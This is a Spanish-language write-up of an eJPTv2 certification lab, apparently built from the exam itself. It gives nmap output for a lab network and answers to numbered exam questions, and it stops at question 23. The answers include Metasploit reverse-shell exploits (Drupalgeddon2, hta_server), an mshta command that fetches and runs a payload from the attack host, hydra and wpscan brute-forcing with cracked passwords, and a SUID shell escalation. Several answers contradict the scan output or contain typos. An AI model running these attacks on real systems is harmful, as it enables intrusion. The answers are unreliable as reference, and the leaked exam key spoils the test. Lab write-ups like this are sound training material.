




# EJPTV2 (EXAMEN INE) DOCUMENTACIÓN

## Resumen Ejecutivo

Se realizó una auditoría de seguridad ofensiva sobre un entorno de red segmentado con el objetivo de identificar vulnerabilidades, explotar vectores de acceso inicial y demostrar capacidades de movimiento lateral. La operación resultó en el compromiso total de múltiples activos críticos, incluyendo servidores Linux y controladores de dominio Windows en redes externas e internas.

## Reconocimiento y Enumeración de Red

La fase inicial comenzó con la identificación del segmento de red local (`192.168.100.0/24`) mediante la interfaz `eth0` de la estación de ataque (`192.168.100.5`).



### **Descubrimiento de Hosts:**

Se ejecutó un barrido de red (Ping Sweep) identificando 8 dispositivos activos.

- `nmap -sn 192.168.100.0/24`


### **Análisis de Servicios:**

Se realizó un escaneo detallado de puertos y servicios sobre los objetivos identificados.

- `nmap -sCV -T5 -Pn -sS --open 192.168.100.1,50,51,52,55,63,67`

```bash
NSE Timing: About 99.99% done; ETC: 19:44 (0:00:00 remaining)
Nmap scan report for ip-192-168-100-50.us-west-1.compute.internal (192.168.100.50)
Host is up (0.00064s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.51 ((Win64) PHP/7.4.26)
|*http-server-header: Apache/2.4.51 (Win64) PHP/7.4.26
|http-title: WAMPSERVER Homepage
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3307/tcp  open  opsession-prxy?
| fingerprint-strings:
|   NULL:
|    Host 'ip-192-168-100-5.us-west-1.compute.internal' is not allowed to connect to this MariaDB server
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info:
|   Target_Name: WINSERVER-01
|   NetBIOS_Domain_Name: WINSERVER-01
|   NetBIOS_Computer_Name: WINSERVER-01
|   DNS_Domain_Name: WINSERVER-01
|   DNS_Computer_Name: WINSERVER-01
|   Product_Version: 6.3.9600
|*  System_Time: 2026-02-28T14:14:12+00:00
|_ssl-date: 2026-02-28T14:14:22+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINSERVER-01
| Not valid before: 2026-02-27T13:33:57
|_Not valid after:  2026-08-29T13:33:57
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49169/tcp open  msrpc              Microsoft Windows RPC
49170/tcp open  msrpc              Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at [https://nmap.org/cgi-bin/submit.cgi?new-service](https://nmap.org/cgi-bin/submit.cgi?new-service) :
SF-Port3307-TCP:V=7.92%I=7%D=2/28%Time=69A2F7F2%P=x86_64-pc-linux-gnu%r(NU
SF:LL,6A,"f\0\0\x01\xffj\x04Host\x20'ip-192-168-100-5\.us-west-1\.compute\
SF:.internal'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20Ma
SF:riaDB\x20server");
MAC Address: 06:C0:C0:C3:F9:85 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

```bash
Host script results:
| smb2-time:
|   date: 2026-02-28T14:14:14
|_  start_date: 2026-02-28T13:33:54
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WINSERVER-01
|   NetBIOS computer name: WINSERVER-01\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-02-28T14:14:12+00:00
|_nbstat: NetBIOS name: WINSERVER-01, NetBIOS user: <unknown>, NetBIOS MAC: 06:c0:c0:c3:f9:85 (unknown)
```

```bash
Nmap scan report for ip-192-168-100-51.us-west-1.compute.internal (192.168.100.51)
Host is up (0.00041s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
21/tcp    open  ftp                Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-19-22  02:25AM       <DIR>          aspnet_client
| 04-19-22  01:19AM                 1400 cmdasp.aspx
| 04-19-22  12:17AM                99710 iis-85.png
| 04-19-22  12:17AM                  701 iisstart.htm
|*04-19-22  02:13AM                   22 robots.txt.txt
80/tcp    open  http               Microsoft IIS httpd 8.5
| http-methods:
|*  Potentially risky methods: TRACE COPY PROPFIND DELETE MOVE PROPPATCH MKCOL LOCK UNLOCK PUT
|_http-server-header: Microsoft-IIS/8.5
|_http-svn-info: ERROR: Script execution failed (use -d to debug)
|*http-title: IIS Windows Server
| http-webdav-scan:
|   Server Type: Microsoft-IIS/8.5
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Server Date: Sat, 28 Feb 2026 14:14:13 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, DELETE, MOVE, PROPPATCH, MKCOL, LOCK, UNLOCK
|   Directory Listing:
|     [http://ip-192-168-100-51.us-west-1.compute.internal/](http://ip-192-168-100-51.us-west-1.compute.internal/)
|     [http://ip-192-168-100-51.us-west-1.compute.internal/aspnet_client/](http://ip-192-168-100-51.us-west-1.compute.internal/aspnet_client/)
|     [http://ip-192-168-100-51.us-west-1.compute.internal/cmdasp.aspx](http://ip-192-168-100-51.us-west-1.compute.internal/cmdasp.aspx)
|     [http://ip-192-168-100-51.us-west-1.compute.internal/iis-85.png](http://ip-192-168-100-51.us-west-1.compute.internal/iis-85.png)
|     [http://ip-192-168-100-51.us-west-1.compute.internal/iisstart.htm](http://ip-192-168-100-51.us-west-1.compute.internal/iisstart.htm)
|*    [http://ip-192-168-100-51.us-west-1.compute.internal/robots.txt.txt](http://ip-192-168-100-51.us-west-1.compute.internal/robots.txt.txt)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2026-02-28T14:14:22+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WINSERVER-02
| Not valid before: 2026-02-27T13:33:48
|*Not valid after:  2026-08-29T13:33:48
| rdp-ntlm-info:
|   Target_Name: WINSERVER-02
|   NetBIOS_Domain_Name: WINSERVER-02
|   NetBIOS_Computer_Name: WINSERVER-02
|   DNS_Domain_Name: WINSERVER-02
|   DNS_Computer_Name: WINSERVER-02
|   Product_Version: 6.3.9600
|*  System_Time: 2026-02-28T14:14:13+00:00
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
49170/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 06:24:43:22:38:23 (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

```bash
Host script results:
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
|*nbstat: NetBIOS name: WINSERVER-02, NetBIOS user: <unknown>, NetBIOS MAC: 06:24:43:22:38:23 (unknown)
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|*  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2026-02-28T14:14:15
|_  start_date: 2026-02-28T13:33:46
```

```bash
Nmap scan report for ip-192-168-100-52.us-west-1.compute.internal (192.168.100.52)
Host is up (0.00053s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|*-rw-r--r--    1 65534    65534         318 Apr 18  2022 updates.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.100.5
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|End of status
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 a7:18:2e:3e:fd:d9:40:ab:e7:a0:67:d5:11:27:c0:9e (RSA)
|   256 28:46:5e:38:3c:e0:82:4a:6b:96:ab:5e:0d:65:00:99 (ECDSA)
|  256 92:dd:87:8c:0a:03:cc:2f:21:71:0d:90:b9:c5:a9:d5 (ED25519)
25/tcp   open  smtp          OpenSMTPD
| smtp-commands: 1c5ce6f62bfc Hello ip-192-168-100-52.us-west-1.compute.internal [192.168.100.5], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|* 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact [bugs@openbsd.org](mailto:bugs@openbsd.org) 2.0.0 with full details 2.0.0 End of HELP info
80/tcp   open  http          Apache httpd 2.4.41
|*http-server-header: Apache/2.4.41 (Ubuntu)
|http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2018-02-21 17:28  drupal/
|
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn   Samba smbd 4.13.17-Ubuntu (workgroup: WORKGROUP)
3306/tcp open  mysql         MySQL 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.34-MariaDB-0ubuntu0.20.04.1
|   Thread ID: 48
|   Capabilities flags: 63486
|   Some Capabilities: DontAllowDatabaseTableColumn, ODBCClient, Support41Auth, LongColumnFlag, Speaks41ProtocolOld, SupportsCompression, SupportsTransactions, SupportsLoadDataLocal, IgnoreSigpipes, ConnectWithDatabase, InteractiveClient, Speaks41ProtocolNew, FoundRows, IgnoreSpaceBeforeParenthesis, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 3~Bo)yLLw4:i!e[vbhb4
|*  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server xrdp
MAC Address: 06:69:A5:E8:23:F1 (Unknown)
Service Info: Hosts: 1c5ce6f62bfc, IP-192-168-100-52; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
Host script results:
|*nbstat: NetBIOS name: IP-192-168-100-, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.13.17-Ubuntu)
|   Computer name: ip-192-168-100-52
|   NetBIOS computer name: IP-192-168-100-52\x00
|   Domain name: us-west-1.compute.internal
|   FQDN: ip-192-168-100-52.us-west-1.compute.internal
|*  System time: 2026-02-28T14:14:14+00:00
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time:
|   date: 2026-02-28T14:14:14
|_  start_date: N/A
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
```

```bash
Nmap scan report for ip-192-168-100-55.us-west-1.compute.internal (192.168.100.55)
Host is up (0.00067s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|*http-title: IIS Windows Server
|http-server-header: Microsoft-IIS/10.0
| http-methods:
|  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2019 Datacenter 17763 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: WINSERVER-03
|   NetBIOS_Domain_Name: WINSERVER-03
|   NetBIOS_Computer_Name: WINSERVER-03
|   DNS_Domain_Name: WINSERVER-03
|   DNS_Computer_Name: WINSERVER-03
|   Product_Version: 10.0.17763
|*  System_Time: 2026-02-28T14:14:14+00:00
|_ssl-date: 2026-02-28T14:14:21+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=WINSERVER-03
| Not valid before: 2026-02-27T13:33:22
|_Not valid after:  2026-08-29T13:33:22
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 06:4F:35:9C:1A:EB (Unknown)
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

```bash
Host script results:
| smb-os-discovery:
|   OS: Windows Server 2019 Datacenter 17763 (Windows Server 2019 Datacenter 6.3)
|   Computer name: WINSERVER-03
|   NetBIOS computer name: WINSERVER-03\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2026-02-28T14:14:14+00:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WINSERVER-03, NetBIOS user: <unknown>, NetBIOS MAC: 06:4f:35:9c:1a:eb (unknown)
|*clock-skew: mean: 0s, deviation: 1s, median: -1s
| smb2-time:
|   date: 2026-02-28T14:14:14
|*  start_date: N/A
```

```bash
Nmap scan report for ip-192-168-100-63.us-west-1.compute.internal (192.168.100.63)
Host is up (0.00031s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|*ssl-date: 2026-02-28T14:14:22+00:00; 0s from scanner time.
| rdp-ntlm-info:
|   Target_Name: EC2AMAZ-IK4QFED
|   NetBIOS_Domain_Name: EC2AMAZ-IK4QFED
|   NetBIOS_Computer_Name: EC2AMAZ-IK4QFED
|   DNS_Domain_Name: EC2AMAZ-IK4QFED
|   DNS_Computer_Name: EC2AMAZ-IK4QFED
|   Product_Version: 10.0.14393
|*  System_Time: 2026-02-28T14:14:15+00:00
| ssl-cert: Subject: commonName=EC2AMAZ-IK4QFED
| Not valid before: 2026-02-27T13:33:09
|_Not valid after:  2026-08-29T13:33:09
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
MAC Address: 06:E8:BF:F0:7B:BB (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```bash
Nmap scan report for ip-192-168-100-67.us-west-1.compute.internal (192.168.100.67)
Host is up (0.00058s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 1d:ce:56:0d:3e:2d:f2:4c:56:6d:24:10:24:17:f4:e8 (RSA)
|   256 81:7f:d2:3a:cb:50:97:af:4e:f9:52:84:5f:da:a8:11 (ECDSA)
|_  256 38:04:ef:44:13:8b:59:68:32:47:30:ac:ae:72:14:85 (ED25519)
MAC Address: 06:B3:8D:8B:BC:2F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 7 IP addresses (7 hosts up) scanned in 566.10 seconds
```

### **Identificación de Sistemas Operativos:**

Mediante el análisis del valor **TTL** (Time To Live) de las respuestas ICMP, se clasificaron los hosts en entornos Linux (TTL ≈ 64) y Windows (TTL ≈ 128).


# Preguntas de la certificación:

### 1.- How many hosts exist within the DMZ network, excluding the gateway device?  (3,4,5,6)

Mediante un barrido ICMP (Ping Sweep), se confirmaron **6 hosts activos** adicionales a la puerta de enlace (Gateway). Los objetivos identificados para la auditoría son: `.50, .51, .52, .55, .63, y .67`


R: 6

### 2.- What is the DMZ-facing IP address of the host that is part of both the DMZ and internal networks? *Answer Format: Provide the full IP address. For example: 192.168.1.1*

Tras la enumeración de interfaces, se determinó que el host **192.168.100.55** actúa como punto de pivote, ya que posee una segunda interfaz en la red interna con la IP **192.168.0.50**. Este activo es crítico para el movimiento lateral.


R: 192.168.100.55

### 3.- How many hosts within the DMZ network are running Linux, excluding the Kali Linux system? (1,2,3,4)

Utilizando la técnica de análisis de TTL (Time To Live), se clasificaron los activos por familia de SO. Excluyendo la estación de ataque, se confirmaron 2 hosts Linux con un TTL = 64: el servidor Drupal (`.51`) y el servidor de archivos (`.67`).


Descubrimos 2 cosas, los host `.51` y `.67` son Linux de acuerdo con su TTL y que el host `.63` cuenta con el Ping bloqueado. Pero para saber su sistema operativo, observamos el resultado de nmap, donde este contaba con puertos típicos de un host Windows:


R: 2

### 4.- What is the IP address of the host running WordPress? (192.168.100.51, 192.168.100.54, 192.168.100.52, 192.168.100.50)

A través de la resolución de Virtual Hosts (vHost) y enumeración HTTP, se confirmó que el servicio **WordPress** se aloja en el host **192.168.100.50** bajo el dominio `wordpress.local`.

`192.168.100.50`


`192.168.100.51`


`192.168.100.52`


`192.168.100.55`


Como se observa el único host relacionada es el `.50`, además de contar con el VHOST `wordpress.local`, el cual agregándolo al archivo `/etc/hosts` obtenemos acceso al sitio:


Su código fuente revela que es WordPress. Por lo tanto la respuesta correcta es la 192.168.100.50.

R: 192.168.100.50

### 5.- How many hosts in the DMZ network and the internal network are running the Apache web server? (1,2,3,4)

El análisis de cabeceras HTTP reveló que el servidor **Apache** es el estándar en la infraestructura, detectándose en **3 activos** distintos: el servidor WordPress (`.50`), el servidor Drupal (`.52`) y un servidor en la red interna (`192.168.0.51`).

R: 3

### 6.- What is the IP address of the host running the OpenSMTPD service? *Answer Format: Provide the full IP address. For example: 192.168.1.1*

Se identificó el servicio **OpenSMTPD** (SMTP) específicamente en el puerto 25 del host **192.168.100.52**. Este servicio proporciona información valiosa sobre el nombre interno del host: `1c5ce6f62bfc`


R: 192.168.100.52

### 7.- What is the total number of open TCP ports on the host running Drupal? (2,4,6,8)

Un escaneo agresivo sobre el host 192.168.100.52 reveló una superficie de ataque extensa con un total de 8 puertos TCP abiertos. Los servicios incluyen: FTP (21), SSH (22), SMTP (25), HTTP (80), RPC (139), SMB (445), MySQL (3306) y RDP (3389).

`nmap -p- --open -T5 192.168.100.52`


R: 8

### 8.- How many hosts within the DMZ network are running a database server? (1,2,3,5)

Se detectaron instancias de bases de datos activas en 2 hosts de la DMZ. El host `.50` ejecuta MariaDB en el puerto 3307, mientras que el host `.52` (Drupal) utiliza el puerto estándar 3306.


R: 2

### 9.- What version of MySQL is running on the system hosting a Drupal site? (MySQL 5.5.0, MySQL 5.5.10, MySQL 5.5.3, MySQL 5.5.5)

En el servidor que aloja el sitio Drupal (`.52`), se identificó la versión específica de base de datos **MySQL 5.5.5** (correspondiente a MariaDB 10.3.34). Esta información fue verificada tras obtener acceso vía Meterpreter.


curl -s [http://192.168.100.52/drupal/CHANGELOG.txt](http://192.168.100.52/drupal/CHANGELOG.txt) | head -n 20


Obteniendo que la versión de Drupal, ahora es posible utilizar searchsploit para buscar vulnerabilidades relacionadas a la versión:


Existe una vulnerabilidad en msfconsole:


Explotando con éxito la vulnerabilidad:


Confirmando que la interpretación de nmap es correcta y por lo tanto es 5.5.5:


10.3.34 que equivale a 5.5.5.

R: MySQL 5.5.5

### 10.- What is the total number of hosts in the internal and DMZ networks running Windows Server 2019? (1,2,3,4)

Mediante la enumeración del protocolo SMB y el uso de scripts de Nmap (`smb-os-discovery`), se confirmó que únicamente **1 host** ejecuta **Windows Server 2019 Datacenter**: el activo **WINSERVER-03** (`.55`)

`nmap -p 445 -sCV 192.168.100.55`


R: 1

### 11.- Which Linux distribution is running on the server hosting the Drupal site? (CentOS, Fedora, Ubuntu, Debian)

Tras comprometer el servidor mediante la vulnerabilidad "Drupalgeddon2", se realizó un análisis del archivo `/etc/os-release`. Se confirmó que el host ejecuta **Ubuntu 20.04.3 LTS (Focal Fossa)**, una distribución basada en Debian.


R: Ubuntu

### 12.- What services does Syntex provide to companies? (Cloud Hosting, Financial Services, Software Development, Workflow Development)

Durante la fase de reconocimiento sobre el host `.50` (WordPress), se identificó que la empresa **Syntex** se especializa en el servicio de **Workflow Development** (Desarrollo de Flujo de Trabajo), además de automatización de procesos y gestión de infraestructura digital.


R: Workflow Development

### 13.- What is the name of the user account that published a blog post on the Drupal site? (admin, vincenzo, auditor, mike)

El análisis del portal de noticias en el sitio Drupal reveló que las entradas del blog fueron publicadas por la cuenta de usuario **auditor**. Esta información es vital para dirigir ataques de fuerza bruta dirigidos o ingeniería social.


R: auditor

### 14.- What is the email of the admin user on the WordPress site?

Mediante el uso de la herramienta `wpscan` y un ataque de diccionario con el archivo `rockyou.txt`, se obtuvo acceso a la cuenta **admin** con la contraseña **estrella**. 

`wpscan --url [http://wordpress.local/](http://192.168.100.50/wordpress/) --enumerate u`


Destacando los siguiente puntos:


Obtuvimos:

- Servidor Web: Apache/2.4.51 (Win64)
- Versión de WordPress: 5.9.3 (Identificada por wp-emoji-release.min.js)
- Usuario Administrador: admin
- Ataque de fuerza bruta disponible

Por lo que utilizare el siguiente ataque de fuerza bruta con la herramienta `wpscan`:

`wpscan --url [http://wordpress.local/](http://wordpress.local/) --usernames admin --passwords /usr/share/wordlists/rockyou.txt`


Tras el acceso al panel administrativo, se identificó el correo electrónico del administrador: **test@test.com.**


R: [test@test.com](mailto:test@test.com)

### 15.- What version of Drupal is running on the Drupal site? (7.57, 7.51, 7.54, 7.58)

La versión exacta del CMS se confirmó mediante dos métodos: la lectura del archivo `CHANGELOG.txt` y la inspección del archivo de arranque `includes/bootstrap.inc` vía shell. 


Ambos métodos confirmaron que el sitio corre sobre **Drupal 7.57**.

`grep "define('VERSION'" includes/bootstrap.inc`


R: 7.57

### 16.- What is the IP address of the host that is vulnerable to an SSH brute-force attack? (192.168.100.52, 192.168.100.50, 192.168.100.54, 192.168.100.51)

El host **192.168.100.52** fue identificado como el único activo con el servicio SSH expuesto. 

Mediante un ataque de fuerza bruta con `hydra` utilizando el usuario **dbadmin** (identificado previamente en `/etc/passwd`), se logró el compromiso del servicio con la contraseña **sayang**.


hydra -L dbadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.100.52 -t 4 -V


R: 192.168.100.52

### 17.- How many systems on the target network have FTP servers with anonymous access enabled? (1,2,3,4)

Se detectaron 2 hosts con el servicio FTP configurado con acceso anónimo habilitado: 

El host `.51` (Microsoft FTP Service) y el host `.52` (vsFTPd 3.0.3). 

`nmap -p 21 --open -T5 129.168.100.0/24`


`192.168.100.51`


`192.168.100.52`


Esto representa una falla crítica de configuración que permite la exfiltración de archivos de sistema.

R: 2

### 18.- What is the IP address of the host running the FTP server that contains a file called updates.txt? (192.168.100.51, 192.168.100.54, 192.168.100.52, 192.168.100.50)

Dentro del servidor FTP anónimo del host **192.168.100.52**, se localizó un archivo denominado `updates.txt`. 
`ftp 192.168.100.52`


El contenido del archivo reveló información sobre la política de contraseñas, indicando que las credenciales de Drupal coinciden con las del sistema operativo.


R: 192.168.100.52

### 19.- What type of vulnerability can be exploited to gain access to WINSERVER-03? (EthernalBlue, Command Injection, Buffer Overflow, SMB Brute Force)

El activo **WINSERVER-03** resultó vulnerable a un ataque de **Command Injection** a través del software *Rejetto HTTP File Server (HFS)* versión 2.3.x. 

`use exploit/windows/misc/hta_server`

`set SRVHOST 192.168.100.5`

`set LHOST 192.168.100.5`

`set payload windows/meterpreter/reverse_tcp`

`run`




Se utilizó el módulo `exploit/windows/http/rejetto_hfs_exec` para obtener una shell reversa inicial.

R: Command Inejction

### 20.- What type of vulnerability can be exploited to elevate your privileges on the Linux host running Drupal? (Cron Job, Misconfigured SUDO Permissions, Vulnerable Service, Locally Stored Credentials)

Tras obtener una shell como el usuario `www-data` en el host Drupal, se realizó una búsqueda de binarios con el bit SUID activo. 

`find / -perm -u=s -type f 2>/dev/null`


Se identificó que `/usr/bin/find` poseía permisos de ejecución como root, permitiendo elevar privilegios mediante el parámetro `-exec /bin/sh -p` para obtener control total del sistema.

`/usr/bin/find . -exec /bin/sh -p \; -quit`


Validamos entrando al directorio root:


Concluimos que es un servicio vulnerable. Igualmente podemos probar con otras técnicas:

`cat /etc/crontab`

`ls -la /etc/cron.d/`


Sin éxito.

R: Vulnerable Service

### 21.- Which Metasploit module can be used to exploit the vulnerability on the Drupal site? *Provide the full module name, including its path, using the standard Metasploit module format (e.g., exploit/.../...).*

Para el compromiso del servidor Drupal, se seleccionó el módulo `exploit/unix/webapp/drupal_drupalgeddon2`. 


`use exploit/unix/webapp/drupal_drupalgeddon2`

`set rhosts 192.168.100.52`

`set targeturi /drupal/`

`run`


Este exploit aprovecha una vulnerabilidad en la API de formularios de Drupal para ejecutar código arbitrario de forma remota.

R: exploit/unix/webapp/drupal_drupalgeddon2

### 22.- Which one of the following MSF modules can be used to obtain an elevated reverse shell on WINSERVER-02? (”exploit/Windows/ftp/ms09_052_ftpd_nlst” “exploit/Windows/misc/hta_server” “exploit/Windows/smb/smb_login” “exploit/Windows/http/kaseya_uploader”)

Para obtener una shell con privilegios elevados en **WINSERVER-02** (`.51`), se utilizó el módulo `exploit/windows/misc/hta_server`

`use exploit/windows/misc/hta_server`

`set SRVHOST 192.168.100.5`

`set LHOST 192.168.100.5`

`set payload windows/meterpreter/reverse_tcp`

`run`


Esta técnica de *delivery* permitió servir un archivo HTA malicioso que, al ejecutarse, devolvió una sesión de Meterpreter con privilegios de `NT AUTHORITY\SYSTEM`

Copiamos la URL maliciosa y ejecutamos en el web shell del sitio:

`mshta [http://192.168.100.5:8080/u57luo9DFv5baV.hta](http://192.168.100.5:8080/eqIQIyVQlhu.hta)`


R: exploit/windows/misc/hta_server

### 23.- What is the CIDR network range of the internal network? (192.168.1.0/24, 192.168.200.0/24, 192.168.0.0/24, 192.168.2.0/24)

